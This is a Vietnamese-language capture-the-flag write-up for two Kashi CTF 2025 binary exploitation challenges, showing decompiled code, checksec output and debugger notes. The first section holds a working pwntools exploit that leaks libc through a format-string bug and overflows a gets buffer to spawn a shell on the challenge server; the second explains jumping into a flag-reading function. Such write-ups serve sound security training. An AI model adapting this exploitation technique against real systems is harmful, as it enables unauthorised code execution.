```yaml
---
title: Kashi CTF 2025
date: 2025-02-10 00:00:00 +0800
categories: [writeup]
tags: [pwn]
author: "kuvee"
layout: post
---
```



## The Troll Zone

-checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/kashi-CTF2025/The_Troll_Zone/chall/chall$ checksec vuln
[*] '/home/ploi/pwn/kashi-CTF2025/The_Troll_Zone/chall/chall/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


- main: bài rất ngắn và ta cũng thấy ở đây nó sử dụng ```gets``` , 1 hàm nguy hiểm gây ra ```bof``` 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[32]; // [rsp+0h] [rbp-20h] BYREF

  setup(argc, argv, envp);
  troll();
  printf("Wanna Cry about that? ");
  gets(v4);
  printf("Still not giving a shit bye hahaha");
  return 0;
}
```

- troll: logic hàm này cũng rất đơn giản , ta được input 32 bytes và có ngay 1 bug ```fsb``` ở bên dưới

```c
int troll()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("What do you want? ");
  fgets(s, 32, stdin);
  if ( !strchr(s, 10) )
  {
    while ( getc(stdin) != 10 )
      ;
  }
  printf("Lmao not giving you ");
  return printf(s);
}
```

- PIE ở bài này tắt , và ta cũng có ```bof```  + ```fsb``` , ta chỉ cần leak libc và sử dụng ret2libc thôi  

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

#p = process()
p = remote('kashictf.iitbhucybersec.in', 17783)

p.sendline(b'%37$p')

p.recvuntil(b'giving you ')
libc.address=  int(p.recvline()[:-1],16) - 0x27305
print(hex(libc.address))
input()
pl = b'a'*32 + p64(0) + p64(0x00000000001323a3+libc.address) + p64(next(libc.search((b'/bin/sh\x00')))) + p64(0x000000000040129b) + p64(libc.sym.system)
p.sendline(pl)
p.interactive()
```

## leap_of_faith 

- main : ta sẽ được nhập 1 địa chỉ và nhảy đến địa chỉ đó 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  __int64 v4; // [rsp+8h] [rbp-8h] BYREF

  printf("i like to jump where ever you say \ngive me the address to go : ");
  __isoc99_scanf("%p", &v4);
  __asm { jmp     rax }
  return result;
}
```

- ngoài ra ta cũng có 1 hàm win 

```cs
int __fastcall win(int a1, int a2, int a3)
{
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  FILE *stream; // [rsp+78h] [rbp-8h]

  if ( a1 <= 222 || a2 <= 173 || a3 <= 49374 )
  {
    printf("Bro where are the arguments ?");
    exit(69);
  }
  stream = fopen("/flag.txt", "r");
  if ( !stream )
  {
    puts("Failed to open file");
    exit(1);
  }
  if ( fgets(s, 100, stream) )
    printf("flag is : %s", s);
  else
    puts("Failed to read line");
  return fclose(stream);
}
```

- và bài này đơn giản là nhảy đến hàm win thôi :v , ta sẽ nhảy đến đoạn này : 

```c
 stream = fopen("/flag.txt", "r");
  if ( !stream )
  {
    puts("Failed to open file");
    exit(1);
  }
  if ( fgets(s, 100, stream) )
    printf("flag is : %s", s);
  else
    puts("Failed to read line");
  return fclose(stream);
```

- tuy nhiên vấn đề ở chỗ là , mỗi khi 1 hàm được gọi , stack sẽ bị trừ đi để setup frame cho hàm đó , và vì ở đây ta nhảy thẳng đến hàm ```win``` và chưa setup stack cho hàm này , nên khi sử dụng ```fgets```  , ```printf``` lúc này nó sẽ ghi đè các dữ liệu khác ở hàm khác -> không thể lấy flag ở remote được (nếu có libc thì ngon :v)

- ta cũng có thể nhìn cách nó thiết lập frame cho hàm ```win``` 

```cs
pwndbg> disass win
Dump of assembler code for function win:
   0x0000000000401182 <+0>:     push   rbp
   0x0000000000401183 <+1>:     mov    rbp,rsp
   0x0000000000401186 <+4>:     add    rsp,0xffffffffffffff80
```

- vì vậy trước khi đọc flag thì ta cần trừ stack đi nhiều lần là được 

![here](/assets/images/kashiCTF/flag.png)